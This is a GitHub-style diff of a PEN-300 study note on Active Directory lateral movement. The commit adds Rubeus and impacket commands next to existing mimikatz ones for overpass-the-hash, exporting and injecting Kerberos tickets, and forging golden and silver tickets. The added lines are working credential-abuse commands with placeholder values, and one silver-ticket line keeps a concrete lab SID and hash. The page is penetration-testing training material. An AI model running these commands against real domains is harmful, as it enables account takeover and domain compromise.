

Before and after one commit to trike33/PEN-300-Code-Snippets, a Markdown page: Active Directory/Lateral Movement.md, 3 parts joined by grey strips. Shown at 84% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/Active Directory/Lateral Movement.md
+++ b/Active Directory/Lateral Movement.md
@@ -18,7 +18,9 @@ Overpass the hash, presented in the [blackhat](https://www.blackhat.com/docs/us-
 We can for example use overpass the hash through [mimikatz](https://github.com/gentilkiwi/mimikatz):
 
 ```
-mimikatz # sekurlsa::pth /user:user1 /domain:contoso.com /ntlm:<ntlm_hash> /run:PowerShell.exe
+1. C:\> .\Rubeus.exe asktgt /domain:<domain_name> /user:<user_name> /rc4:<ntlm_hash> /ptt
+
+2. mimikatz # sekurlsa::pth /user:user1 /domain:contoso.com /ntlm:<ntlm_hash> /run:PowerShell.exe
 ```
 
 Once we have the new powershell session, we can authenticate to any AD resource to obtain a TGT, here's an example:
@@ -31,24 +33,38 @@ PS C:\> net use \\dc01.contoso.com
 PS C:\> klist -> TGT for the user1
 ```
 
+Alternatively, you can use this tools from Linux to get a TGT in a .ccache file:
+
+```
+~# impacket-getTGT.py <domain_name>/<user_name> -hashes [lm_hash]:<ntlm_hash>
+
+~# impacket-getTGT.py <domain_name>/<user_name> -aesKey <aes_key>
+
+~# impacket-python getTGT.py <domain_name>/<user_name>:[password]
+```
+
 **PASS THE TICKET:**
 
 The pass-the-ticket technique abuses the TGS, which can be exported and injected somewhere else.
 
 ```
-Listing tickets with mimikatz:
+Listing tickets:
 
 mimikatz # kerberos::list
 
+C:\> .\Rubeus.exe dump
 
-Exporting all tickets(TGTs and TGSs) with mimikatz:
+Exporting all tickets(TGTs and TGSs):
 
 mimikatz # sekurlsa::tickets /export
 
+C:\> [IO.File]::WriteAllBytes("ticket.kirbi", [Convert]::FromBase64String("<bas64_ticket>")) -> from base64 to .kirbi
 
-Injecting some ticket into memory with mimikatz:
+Injecting some ticket into memory:
 
 mimikatz # kerberos::ptt 'C:\ticket.kirbi'
+
+C:\> .\Rubeus.exe ptt /ticket:<ticket_kirbi_file>
 ```
 
 *When trying to export a usable TGT for our current user, this requieres elevation in the system*
@@ -86,6 +102,13 @@ mimikatz # kerberos::golden /user:trike /domain:contoso.com /sid:<our_sid_withou
 mimikatz # misc::cmd -> launcing a new cmd with our new TGT
 ```
 
+As an alternative we can create golden tickets from Linux using [impacket-ticketer](https://github.com/fortra/impacket/blob/master/examples/ticketer.py)
+
+```
+~# impacket-ticketer.py -nthash <krbtgt_ntlm_hash> -domain-sid <domain_sid> -domain <domain_name>  <user_name>
+
+~# impacket-ticketer.py -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name>  <user_name>
+```
 **SILVER TICKETS:**
 
 This technique consists of crafting a TGS with the password hash of the SPN. The interesting part about this TGS, is that we can modify our permissions(such as user id or group id) stating that we are local administrator/domain admin/etc on the server where the SPN we have compromised is running its service.
@@ -101,6 +124,14 @@ mimikatz # kerberos::list
 mimikatz # kerberos::golden /user:trike /domain:contoso.com /sid:S-1-5-21-2602875597-2787548311-2599479668 /target:server.contoso.com /service:MSSQL /rc4:1BF1DE6AEDB12AE1E548210EDBF3511E /ptt
 ```
 (note that in the sid parameter we didn't specify the RID of the trike user, since mimikatz will automatically set our RID to 500 which equals to both local administrator and domain admin)
+
+Alternatively we can use impacket-ticketer from Linux to create silver tickets:
+
+```
+~# impacket-ticketer.py -nthash <ntlm_hash> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>
+
+~# impacket-ticketer.py -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>
+```
 
 **DOMAIN CONTROLLER SYNCHRONIZATION:**
 
````
